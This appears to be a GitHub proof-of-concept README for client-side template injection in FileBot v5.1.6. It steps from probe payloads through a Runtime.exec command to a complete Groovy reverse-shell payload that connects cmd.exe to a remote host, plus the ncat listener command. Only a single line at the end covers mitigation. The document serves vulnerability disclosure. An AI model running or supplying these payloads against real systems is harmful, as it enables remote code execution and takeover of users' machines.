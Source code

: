 # FileBot_CSTI_PoC
FileBot Client Side Template Injection - ACE/Rev Shell PoC
Tested with FileBot v5.1.6


## Initial Testing

```{{7*7}}```

![image](https://github.com/user-attachments/assets/3a52a280-c553-4e50-a4e9-5d062ef6842d)


```{{7/0}}```

![image](https://github.com/user-attachments/assets/b7f54b29-5105-496b-ab7f-5d5b77ff1255)


```{"foo".toUpperCase()}```

![image](https://github.com/user-attachments/assets/cdd60f92-17ff-4ca9-99ae-bb5071bb3a24)


## Determine the backend language to be Apache Groovy

```java
${T(java.lang.Runtime).getRuntime().exec('whoami')}
```
![image](https://github.com/user-attachments/assets/78055dcd-ba25-4154-bfa4-68a8f819950a)

![image](https://github.com/user-attachments/assets/5bcdc26f-5465-40d6-8546-ca2e611ba179)


## More Testing

```java
{def shell = new GroovyShell()  }
```

![image](https://github.com/user-attachments/assets/e7d6c3a7-b16d-4989-85fa-805c5e686acd)


```java
{def shell = new GroovyShell()                           
def result = shell.evaluate '3*5'}
```

![image](https://github.com/user-attachments/assets/99230eab-3a31-4424-94ed-ec21dbed59cb)



## Reverse Shell

```java
{String host="192.168.1.X";
int port=6666;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();}
```

![image](https://github.com/user-attachments/assets/fd5f8741-2510-4072-bdff-c752a018b81c)


```bash
ncat.exe -lvnp 6666
```

![image](https://github.com/user-attachments/assets/d40a6aa4-0498-47fa-8cf0-6bab2a24dac6)


## Mitigations

If interpreting user supplied templates/commands, access to certain commands should be limited. 

https://github.com/mobeigi/filebot/blob/master/source/net/filebot/format/ExpressionFilter.java

![image](https://github.com/user-attachments/assets/d22f861b-0779-41c4-b1cb-436d6f98771b)
